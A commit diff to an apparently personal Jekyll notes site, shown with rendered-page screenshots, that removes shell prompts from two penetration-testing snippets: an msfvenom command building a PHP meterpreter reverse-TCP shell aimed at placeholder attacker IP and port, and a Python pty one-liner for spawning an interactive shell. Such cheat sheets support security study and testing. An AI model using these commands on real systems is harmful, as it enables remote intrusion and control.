

Before and after one commit to a56z/a56z.github.io, a Jekyll site: the page built from snippets.md, in a window 1280 px wide. Shown: the top 720 px of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings.

````diff
--- a/snippets.md
+++ b/snippets.md
@@ -22,7 +22,7 @@ Once the required values are completed the following command will execute your h
 #### Scripting Payloads
 ###### PHP
 ```bash
-$ msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
+msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
 ```
 
 <br/>
@@ -30,5 +30,5 @@ $ msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-po
 ### Python
 #### Spawn a terminal
 ```python
-$ python -c 'import pty;pty.spawn("/bin/bash")';
+python -c 'import pty;pty.spawn("/bin/bash")';
 ```
````
